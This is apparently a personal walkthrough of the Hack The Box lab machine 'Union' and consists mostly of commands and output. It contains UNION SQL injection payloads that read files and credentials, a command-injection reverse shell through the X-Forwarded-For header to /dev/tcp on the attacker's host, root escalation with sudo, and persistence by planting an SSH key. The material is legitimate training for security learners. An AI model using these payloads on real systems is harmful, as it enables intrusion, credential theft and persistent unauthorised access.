

# Union

```bash
$ TARGET=10.10.11.128
```

```bash
$ sudo nmap -v -sC -sV $TARGET 
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-16 22:22 PDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 22:22
Completed NSE at 22:22, 0.00s elapsed
Initiating NSE at 22:22
Completed NSE at 22:22, 0.00s elapsed
Initiating NSE at 22:22
Completed NSE at 22:22, 0.00s elapsed
Initiating Ping Scan at 22:22
Scanning 10.10.11.128 [4 ports]
Completed Ping Scan at 22:22, 0.13s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:22
Completed Parallel DNS resolution of 1 host. at 22:22, 0.00s elapsed
Initiating SYN Stealth Scan at 22:22
Scanning 10.10.11.128 [1000 ports]
Discovered open port 80/tcp on 10.10.11.128
Completed SYN Stealth Scan at 22:22, 9.11s elapsed (1000 total ports)
Initiating Service scan at 22:22
Scanning 1 service on 10.10.11.128
Completed Service scan at 22:22, 6.20s elapsed (1 service on 1 host)
NSE: Script scanning 10.10.11.128.
Initiating NSE at 22:22
Completed NSE at 22:22, 5.14s elapsed
Initiating NSE at 22:22
Completed NSE at 22:22, 0.38s elapsed
Initiating NSE at 22:22
Completed NSE at 22:22, 0.00s elapsed
Nmap scan report for 10.10.11.128
Host is up (0.089s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 22:22
Completed NSE at 22:22, 0.00s elapsed
Initiating NSE at 22:22
Completed NSE at 22:22, 0.00s elapsed
Initiating NSE at 22:22
Completed NSE at 22:22, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.61 seconds
           Raw packets sent: 2008 (88.328KB) | Rcvd: 13 (724B)
```


```bash
kali' union select 'batman' -- -
```


- [mysql-sql-injection-practical-cheat-sheet](https://www.advania.co.uk/insights/blog/mysql-sql-injection-practical-cheat-sheet/)
- [mysql-sql-injection-cheat-sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)

```bash
' union all select version()-- -
' union all select user()-- -
' union all select @@hostname-- -
' union all select database()-- -
' union all select @@datadir-- -
' union all select load_file('/etc/passwd')-- -
' union all select user from mysql.user limit 1,1-- -
' union all select user from mysql.user limit 2,1-- -
' union all select user from mysql.user limit 3,1-- -
' union all select user from mysql.user limit 4,1-- -
' union all select user from mysql.user limit 5,1-- -
' union all select user from mysql.user limit 6,1-- -
' union all select schema_name FROM information_schema.schemata limit 1,1-- -
' union all select schema_name FROM information_schema.schemata limit 2,1-- -
' union all select schema_name FROM information_schema.schemata limit 3,1-- -
' union all select schema_name FROM information_schema.schemata limit 4,1-- -
```


```bash
' union all select table_name from information_schema.tables where table_schema = 'november' limit 1 offset 0-- -
' union all select table_name from information_schema.tables where table_schema = 'november' limit 1 offset 1-- -
' union all select table_name from information_schema.tables where table_schema = 'november' limit 1 offset 2-- -
' union all select table_name from information_schema.tables where table_schema = 'november' limit 1 offset 3-- -
' union all select table_name from information_schema.tables where table_schema = 'november' limit 1 offset 4-- -
```


```bash
' union all select concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='players' limit 1 offset 0-- -
' union all select concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='players' limit 1 offset 1-- -
' union all select concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='players' limit 1 offset 2-- -
```


```bash
' union all select player from players limit 1 offset 0-- -
```


```bash
' union all select concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='flag' limit 1 offset 0-- -
```


```bash
' union all select one from flag limit 1 offset 0-- -
```


Read files

```bash
' union all select load_file('/etc/passwd')-- -
```


```bash
' union all select load_file('/var/www/html/index.php')-- -
```


```bash
' union all select load_file('/var/www/html/config.php')-- -
```


```php
<?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

Restrictions to write file?

```bash
' union all select variable_value from information_schema.global_variables where variable_name='secure_file_priv'-- -
```

```bash
' union all select 'Test 123' into outfile '/var/www/html/test.txt'-- -
```

```bash
' union all select load_file('/var/www/html/test.txt')-- -
```

No success




```bash
$ sudo nmap -v $TARGET
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-18 16:01 PDT
...
Discovered open port 80/tcp on 10.10.11.128
Discovered open port 22/tcp on 10.10.11.128
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.84 seconds
           Raw packets sent: 1004 (44.152KB) | Rcvd: 1178 (84.640KB)
```

```bash
$ ssh uhc@$TARGET                
uhc@10.10.11.128's password: uhc-11qual-global-pw
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.
...
Last login: Sat May 18 23:02:53 2024 from 10.10.14.6
uhc@union:~$ id
uid=1001(uhc) gid=1001(uhc) groups=1001(uhc)
```

```bash
$ cat /var/www/html/firewall.php 
...
<?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>
...
```

```bash
sudo /usr/sbin/iptables -A INPUT -s $(ping -c 1 10.10.14.6) -j ACCEPT
```

```bash
sudo /usr/sbin/iptables -A INPUT -s 1.1.1.1; ping -c 1 10.10.14.6 -j ACCEPT
```

```bash
GET /firewall.php HTTP/1.1
Host: 10.10.11.128
Cookie: PHPSESSID=ouf9s9d9qu01d13am6j8jul9gm
X-Forwarded-For: $(ping -c 1 10.10.14.6)
```


```bash
$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
17:18:08.355389 IP 10.10.11.128 > 10.10.14.6: ICMP echo request, id 11, seq 1, length 64
17:18:08.355442 IP 10.10.14.6 > 10.10.11.128: ICMP echo reply, id 11, seq 1, length 64
```

```bash
$ rlwrap -cAr nc -nlvp 443  
listening on [any] 443 ...
```

```bash
GET /firewall.php HTTP/1.1
Host: 10.10.11.128
Cookie: PHPSESSID=ouf9s9d9qu01d13am6j8jul9gm
X-Forwarded-For: $(bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1")
```

```bash
$ rlwrap -cAr nc -nlvp 443  
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.128] 40268
bash: cannot set terminal process group (807): Inappropriate ioctl for device
bash: no job control in this shell
www-data@union:~/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```bash
www-data@union:~/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
```

```bash
www-data@union:~/html$ sudo /bin/bash
sudo /bin/bash
python3 -c "import pty;pty.spawn('/bin/bash')"
root@union:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
```

## persistence

```bash
$ cd ~/.ssh
$ python3 -m http.server 9090
Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
```

```bash
root@union:/var/www/html# cd /root

root@union:~# wget 10.10.14.6:9090/kali-rsa.pub
wget 10.10.14.6:9090/kali-rsa.pub
--2024-05-19 00:28:33--  http://10.10.14.6:9090/kali-rsa.pub
Connecting to 10.10.14.6:9090... connected.
HTTP request sent, awaiting response... 200 OK
Length: 91 [application/vnd.exstream-package]
Saving to: ‘kali-rsa.pub’

kali-rsa.pub        100%[===================>]      91  --.-KB/s    in 0s      

2024-05-19 00:28:33 (9.00 MB/s) - ‘kali-rsa.pub’ saved [91/91]
```

```bash
$ python3 -m http.server 9090
Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
10.10.11.128 - - [18/May/2024 17:27:33] "GET /kali-rsa.pub HTTP/1.1" 200 -
10.10.11.128 - - [18/May/2024 17:28:33] "GET /kali-rsa.pub HTTP/1.1" 200 -
```

```bash
root@union:~# cat kali-rsa.pub >> /root/.ssh/authorized_keys
cat kali-rsa.pub >> /root/.ssh/authorized_keys

root@union:~# cat /root/.ssh/authorized_keys
cat /root/.ssh/authorized_keys
ssh-ed25519 AAAAC3N...1y9m kali@kali
```

```bash
$ ssh -i ~/.ssh/kali-rsa root@$TARGET
Enter passphrase for key '/home/kali/.ssh/kali-rsa': 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)
...
root@union:~# id
uid=0(root) gid=0(root) groups=0(root)
```

## Link

- [0xdf - htb-union](https://0xdf.gitlab.io/2021/11/22/htb-union.html)
